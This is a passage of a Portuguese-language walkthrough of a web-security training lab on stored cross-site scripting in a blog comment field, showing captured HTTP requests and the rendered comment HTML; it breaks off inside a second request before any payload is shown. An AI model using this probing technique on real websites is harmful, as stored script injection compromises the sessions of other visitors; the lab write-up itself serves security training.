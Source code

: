 Dessa vez, o objetivo é explorar uma vulnerabilidade de `Cross-site Scripting (XSS) - Armazenado` em um campo de comentários de um blog. Para isso, iremos analisar a requisição que é enviada para o back-end quando adicionamos um comentário em um post da aplicação.

``` HTTP

POST /post/comment HTTP/1.1
Host: 0a060043046b904cc3443e5800560094.web-security-academy.net
Cookie: session=8TQiATo9VSBQpFZIlVRrwRGSo2NeolpK
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 132
Origin: https://0a060043046b904cc3443e5800560094.web-security-academy.net
Referer: https://0a060043046b904cc3443e5800560094.web-security-academy.net/post?postId=10
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

csrf=G5Rkm7KlTXfbqky0lb1JNPDhDIOFMLv2&postId=10&comment=test&name=Sonael&email=sonael%40net.com&website=https%3A%2F%2Fsonaelneto.org

```

Ao recarregar a página e analisarmos a requisição GET feita para o back-end, podemos ver que o comentário que adicionamos foi armazenado no banco de dados e está sendo renderizado na página em um contexto HTML.


``` html

    <section class="comment">
        <p>
        <img src="/resources/images/avatarDefault.svg" class="avatar">                            
        <a id="author" href="https://sonaelneto.org">Sonael</a> | 26 January 2023
        </p>
        <p>test</p>
        <p></p>
    </section>

```


Logo, podemos testar o mesmo payload de XSS que usamos no laboratório anterior, para confirmar que a aplicação está vulnerável a XSS utilizando a seguinte requisição.

```http

POST /post/comment HTTP/1.1
Host: 0a060043046b904cc3443e5800560094.web-security-academy.net
Cookie: session=8TQiATo9VSBQpFZIlVRrwRGSo2NeolpK
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 153
Origin: https://0a060043046b904cc3443e5800560094.web-security-academy.net
Referer: https://0a060043046b904cc3443e5800560094.web-security-academy.net/post?postId=10
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
```